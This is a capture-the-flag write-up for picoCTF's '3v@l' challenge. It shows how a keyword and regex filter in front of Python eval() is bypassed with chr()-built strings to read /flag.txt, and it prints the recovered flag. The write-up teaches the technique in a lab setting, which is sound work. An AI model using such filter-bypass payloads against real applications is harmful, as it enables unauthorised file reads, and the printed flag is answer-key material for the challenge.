 # 3v@l - [Click](https://play.picoctf.org/practice/challenge/484?category=1&page=2&search=)

The web app takes a formula from the user and uses Python's `eval()` to calculate it. The backend blocks keywords like `eval`, `os`, `cat`, and blocks characters such as `/` and `.` via regex.

To bypass filters, I used Python's `chr()` to build the file path and read the flag:

```python
open(chr(47) + "flag" + chr(46) + "txt").read()
```

* `chr(47)` = `/`
* `chr(46)` = `.`

This becomes `open('/flag.txt').read()` without triggering filters.

Submitting this payload in the `code` parameter successfully returned the flag:

```
picoCTF{D0nt_Use_Unsecure_f@nctionsb95fffac}
```

**Lesson:** Never use `eval()` on user input without strict validation or safer alternatives.
